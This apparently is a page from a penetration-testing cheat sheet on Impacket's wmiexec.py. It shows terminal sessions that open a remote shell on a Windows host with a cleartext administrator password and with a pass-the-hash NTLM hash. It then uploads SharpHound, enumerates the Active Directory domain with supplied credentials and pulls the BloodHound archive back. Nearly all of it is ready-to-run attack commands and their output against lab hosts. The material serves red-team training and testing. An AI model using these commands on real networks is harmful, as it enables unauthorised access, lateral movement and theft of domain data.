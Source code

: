 ### WMIexec - Executes a semi-interactive shell using Windows Management Instrumentation

Enters as the user, not SYSTEM

```plain
$ wmiexec.py offsec.nl/administrator:Welkom1234@10.10.10.16

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
offsec\administrator
```

Enter with hash instead of password

```plain
$ wmiexec.py administrator@10.10.10.16 -hashes :0e0363213e37b94221497260b0bcb4fc Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

Use [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe) in WMIexec.

```plain
$ wmiexec.py admin:Welkom1234@10.10.10.10
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
put[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>put SharpHound.exe
[*] Uploading SharpHound.exe to C:\SharpHound.exe
C:\>SharpHound.exe --CollectionMethod All -d offsec.local --ldapusername johndo --ldappassword Welkom1234 --domaincontroller 10.10.10.10
------------------------------------------------
Initializing SharpHound at 10:59 AM on 11/5/2020
------------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain offsec.LOCAL using path CN=Schema,CN=Configuration,DC=offsec,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 18 MB RAM
Status: 74 objects finished (+74 74)/s -- Using 26 MB RAM
Enumeration finished in 00:00:01.6392385
Compressing data to .\20201105105903_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:59 AM on 11/5/2020! Happy Graphing!


C:\>get 20201105105903_BloodHound.zip
[*] Downloading C:\\20201105105903_BloodHound.zip
```